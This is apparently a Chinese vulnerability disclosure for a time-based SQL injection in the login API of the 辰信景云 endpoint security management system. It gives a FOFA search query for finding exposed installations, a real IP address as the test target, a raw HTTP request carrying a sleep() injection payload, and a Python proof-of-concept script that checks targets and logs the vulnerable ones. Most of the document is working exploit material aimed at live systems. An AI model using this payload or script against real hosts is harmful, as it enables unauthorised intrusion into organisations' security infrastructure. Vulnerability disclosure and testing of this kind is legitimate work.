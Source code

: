 # 辰信景云终端安全管理系统 login存在 SQL注入漏洞

## 一、资产搜索

```
"辰信景云终端安全管理系统" && icon_hash="-429260979"
```

## 二、测试地址

```
https://106.55.100.76
```

## 三、验证

构造的请求包

```
POST /api/user/login HTTP/2
Host: 106.55.100.76
Content-Length: 181
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(10))a)='


username=123%40qq.com&password=e10adc3949ba59abbe56e057f20f883e&captcha=
```

![image-20240903133357412](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903133357412.png)

## 四、POC

![image-20240903141200070](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903141200070.png)

```
def poc(target):
    payload = "/api/user/login"
    data = """
    captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(10))a)='\r\n
    username=123%40qq.com&password=e10adc3949ba59abbe56e057f20f883e&captcha=
    """
    headers = {
        "Content-Length": "181",
        "Accept": "application/json,text/javascript,*/*;q=0.01",
        "Content-Type": "application/x-www-form-urlencoded;charset=UTF-8",
        "Accept-Encoding": "gzip,deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
    }
    res1 = requests.get(url=target, verify=False)
    try:
        if res1.status_code == 200:
            res2 = requests.post(url=target, verify=False)
            res3 = requests.post(url=target + payload, headers=headers, data=data, verify=False)
            time2 = res2.elapsed.total_seconds()
            time3 = res3.elapsed.total_seconds()
            if time3 - time2 >= 9 and time3 > 10:
                with open("result.txt", "a",encoding="utf-8") as f:
                    f.write(f"该{target}存在延时注入漏洞{time3 - time2}\n")
                print(f"该{target}存在延时注入漏洞{time3 - time2}")
            elif time3 < 9:
                print(f"该{target}不存在延时注入漏洞{time3 - time2}")
        else:
            print(f"该{target}存在问题，请手动测试")
    except Exception as e:
        print(e)
```



## 五、测试结果

![image-20240903143307789](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903143307789.png)

![image-20240903143546230](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903143546230.png)